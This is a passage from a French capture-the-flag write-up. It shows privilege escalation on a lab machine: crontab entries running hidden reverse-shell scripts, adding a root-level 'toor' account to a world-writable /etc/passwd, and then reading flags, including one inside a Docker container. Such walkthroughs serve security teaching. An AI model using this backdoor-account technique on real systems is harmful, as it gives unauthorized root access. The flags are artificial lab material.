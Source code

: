 La machine sur laquelle on récupère ce shell dispose de nombreuses interfaces réseau, nous somme donc sur l'hôte.  

Avec la commande *crontab -l* on retrouve les deux scripts chargés des reverse shells :  

```plain
* * * * * /usr/bin/python3 /home/docksec/.secret/c1.py 
* * * * * /usr/bin/python3 /home/docksec/.secret/c2.py
```

net user /add
-------------

[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) détecte que le fichier */etc/passwd* est modifiable par tous. Je vais utiliser *mkpasswd* pour avoir un hash correspondant à *toto* :  

```plain
mkpasswd -m sha512crypt 
Mot de passe :  
$6$oCOSAsIhXC.RkvLT$G2KwJNB1m.WM6s2uAF6nmk/Xaas.AAUmUnJHftUkLhrNRSSRNk7PcePrEDucWX92nKKPb4JYnxqm.Jxdr7AGC.
```

Je rajoute alors cette ligne au fichier :  

```plain
toor:$6$oCOSAsIhXC.RkvLT$G2KwJNB1m.WM6s2uAF6nmk/Xaas.AAUmUnJHftUkLhrNRSSRNk7PcePrEDucWX92nKKPb4JYnxqm.Jxdr7AGC.:0:0:toor:/root:/bin/bash
```

Et c'est gagné :  

```plain
$ su toor 
Password:  
root@uninvited:/home/docksec# id 
uid=0(root) gid=0(root) groups=0(root) 
root@uninvited:/home/docksec# cd /root

root@uninvited:~# cat root.txt 
             .__            .__  __             .___  
 __ __  ____ |__| _______  _|___/  |_  ____   __| _/  
|  |  \/    \|  |/    \  \/ |  \   ___/ __ \ / __ |   
|  |  |   |  |  |   |  \   /|  ||  | \  ___// /_/ |   
|____/|___|  |__|___|  /\_/ |__||__|  \___  \____ |   
           \/        \/                   \/     \/ 
FLAG{58DSFJ74RFWESD8J2LKJGHJ87ER4QREWRFLMSTDCMGKAASD}
```

Il ne nous reste plus qu'à accéder au fichier *user2.txt* qui était dans le dossier de l'utilisateur *demodocker* avec des permissions limitées :  

```plain
root@uninvited:~# docker ps 
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                   NAMES 
f950b9c50e1d        wordpress:latest    "docker-entrypoint.s…"   18 months ago       Up 29 hours         0.0.0.0:60000->80/tcp   wordpress_wordpress_1_dd9b95034d3d 
982523fa9f5f        mysql:5.7           "docker-entrypoint.s…"   18 months ago       Up 29 hours         3306/tcp, 33060/tcp     wordpress_db_1_9676244bc9b2 
root@uninvited:~# docker exec -it f950b9c50e1d /bin/bash              
root@f950b9c50e1d:/var/www/html# cd /root 
root@f950b9c50e1d:~# ls 
root@f950b9c50e1d:~# cd /home/demodocker/ 
root@f950b9c50e1d:/home/demodocker# ls 
user2.txt 
root@f950b9c50e1d:/home/demodocker# cat user2.txt  
   ___  ____  _______ __  
  /  _]/    |/ ___/  |  | 
```